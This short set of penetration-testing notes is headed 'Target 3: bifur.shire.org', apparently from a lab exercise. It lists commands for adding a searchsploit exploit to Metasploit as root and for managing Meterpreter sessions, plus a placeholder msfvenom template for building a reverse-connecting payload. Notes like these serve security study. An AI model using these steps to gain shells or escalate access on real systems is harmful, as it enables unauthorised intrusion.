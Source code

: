 # Target 3: bifur.shire.org

## Adding New Modules to Metasploit

```
searchsploit -m file.rb
sudo -i
cp file.rb /root/.msf4/modules/.exploits
msfconsole
search file.rb
```

## Metasploit/Meterpreter Notes

* sessions -u \[session #] to elevate to Meterpreter
* CTRL + z to background a Metasploit session
* sessions -i \[session #] to return to a backgrounded Metasploit session
* msfvenom -p \[payload] LHOST=\[IP] LPORT=\[port] -f \[format] > \[file name]
